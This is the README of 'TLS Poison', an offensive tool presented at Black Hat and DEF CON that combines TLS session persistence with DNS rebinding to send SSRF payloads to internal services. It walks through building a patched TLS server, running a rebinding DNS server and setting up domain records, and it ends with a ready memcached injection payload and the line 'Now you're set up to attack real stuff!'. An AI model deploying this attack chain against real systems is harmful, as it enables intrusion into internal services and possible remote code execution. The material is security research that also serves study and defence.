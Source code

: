 # TLS Poison

A tool that allows for generic SSRF via TLS, as well as CSRF via image tags
in most browsers.  The goals are similar to
[SNI injection](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf),
but this new method uses inherent behaviors of TLS,
instead of depending upon bugs in a particular implementation.

This was originally presented at [Blackhat USA 2020](https://www.blackhat.com/us-20/briefings/schedule/#when-tls-hacks-you-19446)
as well as [DEF CON Safemode](https://www.defcon.org/html/defcon-safemode/dc-safemode-speakers.html#Maddux).

A big thanks goes out to [rustls](https://github.com/ctz/rustls) and 
[dns-mitm](https://github.com/SySS-Research/dns-mitm), each of which this
is mostly just a strange patched fork.

## Motivation
Back when gopher support was common, people got a lot of mileage out of
using it for SSRF.  So much so that there's pretty good tooling like
[Gopherus](https://github.com/tarunkant/Gopherus) for doing so. This 
is because there are some software packages that often sit unauthenticated
on localhost or on an internal network.  A common one is memcached,
because writing to memcached can often become RCE.  

What if we could replicate this behavior, but instead of giving
the attack target a `gopher://` URL which isn't often supported, we
give it an `https://` URL?  This has been done before with SNI injection,
but what if we did it in a more universal way?

It turns out TLS provides us with the perfect thing - session persistence!
I plan on eventually writing up how this works, as well as more detail on
what attacks can be done with it.  For now you can either watch the Blackhat
or DEF CON talk, or attempt to decipher the following diagram I came up
with a while back:
![tes](diagram.svg)

## Instructions
As a heads up, you will need a domain where you can set NS records.
If needed can find a few free subdomain providers which may work by
[searching around](https://www.google.com/search?q=free+subdomain+hosting+with+ns+record),
but I have only tried with a dedicated top-level domain.  In any case
I'd recommend holding off on registering anything until you complete the
first few steps to make sure everything's working properly.
### TLS server
This should be on something public, where the DNS rebinding server will
eventually resolve to.  You should probably use a dedicated box/VM for
this, since you'll end up exposing whatever port you want to target, e.g.
11211 for memcached or 25 for SMTP.
```bash
# Install dependencies
sudo apt install git redis
git clone https://github.com/jmdx/TLS-poison.git
# Install rust:
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
cd TLS-poison/client-hello-poisoning/custom-tls
# There will definitely be warnings I didn't clean up :)
cargo build
# Test out the server:
target/debug/custom-tls -p 8443 --verbose --certs ../../rustls/test-ca/rsa/end.fullchain --key ../../rustls/test-ca/rsa/end.rsa http
# (In another terminal to verify setup)
curl -kv https://localhost:8443
```
 
 ### DNS rebinding server
 You'll need this on a public box as well.  If you know for sure your
 box doesn't have a `systemd-resolved` stub resolver, it can be on the
 same box as `custom-tls`, but I'd recommend putting this on its own.
 ```bash
sudo apt install python3 python3-pip
git clone https://github.com/jmdx/TLS-poison.git
cd TLS-poison/client-hello-poisoning/custom-dns
pip3 install -r requirements.txt
# $DOMAIN: The domain you own where you will set up NS records
# $TARGET_IP: Likely 127.0.0.1, though you can set this to be some box 
#   netcat listening, for early phases of testing.
# $INITIAL_IP: The IP of the box with custom-tls
sudo python3 alternate-dns.py $DOMAIN,$TARGET_IP -b 0.0.0.0 -t $INITIAL_IP -d 8.8.8.8
# If you get "OSError: address already in use", you can do the following
# to stop systemd-resolved.  This might mess up lots of things outside of
# custom-dns, but if it's on a dedicated VM, you're probably okay.
# A better way is to add DNSStubListener=no to /etc/systemd/resolved.conf
sudo systemctl stop systemd-resolved
# Finally, to verify, run the following a few times to see it alternating:
dig @localhost $DOMAIN
```

### Setting up the NS record and certificates
You'll need to set up an NS record and a glue record so that DNS requests 
go to your rebinding server.  For example, if your domain is example.com,
you should add:
```
dns.example.com A 300 <DNS_IP>
tlstest.example.com NS 300 dns.example.com
```
Then to get a TLS certificate for `tlstest.example.com`, go to the
[certbot instructions] and complete a DNS challenge for it.  Then, go back to
`custom-tls` and rerun it:
```bash
target/debug/custom-tls  -p 8443--verbose --certs letsencrypt-cert.fullchain --key letsencrypt-key.rsa http
```
Now you're set up to attack real stuff!  When something makes a request to
`https://tlstest.jmaddux.com:8443`, both the TLS session poisoning and DNS
rebinding steps should be fully functional.

### Putting it all together
To use this in different situations, you'll need to vary a few things:
- port: Your TLS server will need to run on this port, since rebinding only
switches up the domain (e.g. tlstest.example.com:11211 can be either 35.x.x.x:11211,
or 127.0.0.1:11211)
- sleep: The duration the TLS server sleeps between redirects.  This varies
based upon what software you are sending custom-tls server, instead of what
internal service you're attacking.  For example, testing curl-initited SSRF this
can be 10000ms, but for chrome-based stuff it can be quite short.  On the other
hand, if you see the attacks failing because you hit a maximum number of redirects,
consider increasing this to 59000ms or beyond.  If you don't see TLS sessions being
persisted and re-delivered to the internal service, it can often be fixed by
varying the sleep time.
- payload: Typically will start with a newline, and then have whatever commands
you want to inject into the protocol you're targeting.

For example, for memcached:
```bash
redis-cli
127.0.0.1:6379> set payload "\r\nset foo 0 0 14\r\nim in ur cache \r"
Ctrl+c
# Note the following is port 11211 now.
target/debug/custom-tls -p 11211 --verbose --certs ../../rustls/test-ca/rsa/end.fullchain --key ../../rustls/test-ca/rsa/end.rsa -p 11211 http
```
Then run you can supply https://tlstest.example.com:11211 as your SSRF payload.
Good luck, and make sure not to attack anything you don't have permission!